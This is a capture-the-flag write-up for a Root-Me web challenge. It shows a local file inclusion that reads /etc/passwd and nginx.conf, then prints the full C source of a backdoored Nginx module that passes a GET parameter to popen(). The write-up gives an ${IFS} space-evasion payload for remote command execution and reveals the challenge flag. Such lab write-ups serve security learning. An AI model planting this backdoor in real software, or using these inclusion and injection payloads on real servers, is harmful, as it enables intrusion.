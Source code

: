 ```yaml
---
title: "[CTF20K Root-Me] - Trainee Trainee"
date: 2025-05-10
author: me
categories: [writeups]
tags: ["Web", "LFI", "RCE"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*Your trainee made a final commit on the last day of his course, and since then you've seen a huge influx of requests. Strangely, you can no longer connect to the server ... Can you analyse what's going on?*

<br>

_____________________________________________________



<br>

**Table of contents:**

- <a href="#web-app">Web App</a>
- <a href="#local-file-inclusion">Local File Inclusion</a>
- <a href="#remote-code-execution">Remote Code Execution</a>
- <a href="#flag">Flag</a>

<br>

_____________________________________________________


<br>

## Web App

The web application consists of a page requesting a file path.

![2](/images/rootme/main_page.png)

## Local File Inclusion

We can check for the presence of a filter by attempting to retrieve the contents of `/etc/passwd`.

![2](/images/rootme/1.png)

Apparently, no filter is applied. The previous request also allows us to determine that the server is an `Nginx version 1.24.0`. The idea would therefore be to try to retrieve the configuration file `/etc/nginx/nginx.conf`.

![2](/images/rootme/2.png)

The configuration file allows us to discover the presence of a secret endpoint and a backdoor on the server.

`/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c` :

```c
#include <ngx_config.h>
#include <ngx_core.h>
#include <ngx_http.h>
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    ngx_flag_t backdoor;
} ngx_http_root_me_backdoor_conf_t;

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf);
static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r);
static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf);
static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child);

static ngx_command_t ngx_http_root_me_backdoor_commands[] = {
    { ngx_string("root_me_backdoor"),
      NGX_HTTP_LOC_CONF | NGX_CONF_FLAG,
      ngx_http_root_me_backdoor,
      NGX_HTTP_LOC_CONF_OFFSET,
      offsetof(ngx_http_root_me_backdoor_conf_t, backdoor),
      NULL },
    ngx_null_command
};

static ngx_http_module_t ngx_http_root_me_backdoor_module_ctx = {
    NULL,                                  /* preconfiguration */
    NULL,                                  /* postconfiguration */
    NULL,                                  /* create main configuration */
    NULL,                                  /* init main configuration */
    NULL,                                  /* create server configuration */
    NULL,                                  /* merge server configuration */
    ngx_http_root_me_backdoor_create_conf, /* create location configuration */
    ngx_http_root_me_backdoor_merge_conf   /* merge location configuration */
};

ngx_module_t ngx_http_root_me_backdoor_module = {
    NGX_MODULE_V1,
    &ngx_http_root_me_backdoor_module_ctx, /* module context */
    ngx_http_root_me_backdoor_commands,    /* module directives */
    NGX_HTTP_MODULE,                       /* module type */
    NULL,                                  /* init master */
    NULL,                                  /* init module */
    NULL,                                  /* init process */
    NULL,                                  /* init thread */
    NULL,                                  /* exit thread */
    NULL,                                  /* exit process */
    NULL,                                  /* exit master */
    NGX_MODULE_V1_PADDING
};

static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf) {
    ngx_http_root_me_backdoor_conf_t *conf;

    conf = ngx_pcalloc(cf->pool, sizeof(ngx_http_root_me_backdoor_conf_t));
    if (conf == NULL) {
        return NGX_CONF_ERROR;
    }

    conf->backdoor = NGX_CONF_UNSET;
    return conf;
}

static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child) {
    ngx_http_root_me_backdoor_conf_t *prev = parent;
    ngx_http_root_me_backdoor_conf_t *conf = child;

    ngx_conf_merge_value(conf->backdoor, prev->backdoor, 0);
    return NGX_CONF_OK;
}

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf) {
    ngx_http_core_loc_conf_t *clcf;

    clcf = ngx_http_conf_get_module_loc_conf(cf, ngx_http_core_module);
    clcf->handler = ngx_http_root_me_backdoor_handler;

    ngx_conf_set_flag_slot(cf, cmd, conf);
    return NGX_CONF_OK;
}

static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r) {
    ngx_http_root_me_backdoor_conf_t *conf;
    conf = ngx_http_get_module_loc_conf(r, ngx_http_root_me_backdoor_module);

    if (!conf->backdoor) {
        return NGX_DECLINED;
    }

    if (r->method != NGX_HTTP_GET) {
        return NGX_HTTP_NOT_ALLOWED;
    }

    ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
    ngx_str_t param_value;

    if (ngx_http_arg(r, param_name.data, param_name.len, &param_value) != NGX_OK) {
        return NGX_HTTP_BAD_REQUEST;
    }

    char *command = (char *) ngx_pnalloc(r->pool, param_value.len + 1);
    if (command == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_memcpy(command, param_value.data, param_value.len);
    command[param_value.len] = '\0';

    FILE *fp;
    char result[1024];
    fp = popen(command, "r");
    if (fp == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_str_t response;
    response.data = (u_char *) ngx_pcalloc(r->pool, sizeof(result));
    if (fgets(result, sizeof(result), fp) != NULL) {
        ngx_memcpy(response.data, result, ngx_strlen(result));
        response.len = ngx_strlen(result);
    } else {
        response.len = 0;
    }
    pclose(fp);

    ngx_buf_t *b;
    ngx_chain_t out;

    r->headers_out.status = NGX_HTTP_OK;
    r->headers_out.content_length_n = response.len;
    r->headers_out.content_type.len = sizeof("text/plain") - 1;
    r->headers_out.content_type.data = (u_char *) "text/plain";

    b = ngx_pcalloc(r->pool, sizeof(ngx_buf_t));
    out.buf = b;
    out.next = NULL;

    b->pos = response.data;
    b->last = response.data + response.len;
    b->memory = 1;
    b->last_buf = 1;

    ngx_http_send_header(r);
    return ngx_http_output_filter(r, &out);
}
```
## Remote Code Execution

Concretely, the backdoor allows us to remotely execute system commands via the GET parameter `r00t-m3.backd0or` from the endpoint `/Th1s_3ndp0int_1s_S3cr3t`.

I first tried the following commands:

```text
ls -la
ls%20-la
```

However, I encountered a timeout. Spaces can cause parsing errors in the `popen()` function. I therefore replaced the spaces with `${IFS}`.

Another issue is that the Nginx module likely limits the size of the HTTP response. Indeed, when I send `ls${IFS}-la`, I only receive the first line of the result:

![2](/images/rootme/3.png)

I finally managed to solve the problem by adding the `sed` command to retrieve the i-th line of the result. I automated this using Burp's Intruder function and noticed a folder containing the flag at the root of the server:

![2](/images/rootme/4.png)

Payload: `ls${IFS}-la${IFS}/${IFS}|${IFS}sed${IFS}-n${IFS}10p`

## Flag

All that remains is to read the file from the main page of the app:

![2](/images/rootme/flag.png)

> 🚩 `RM{My_Tr4inee_B4ckd00r_My_Ng1nx}`

Thanks for reading !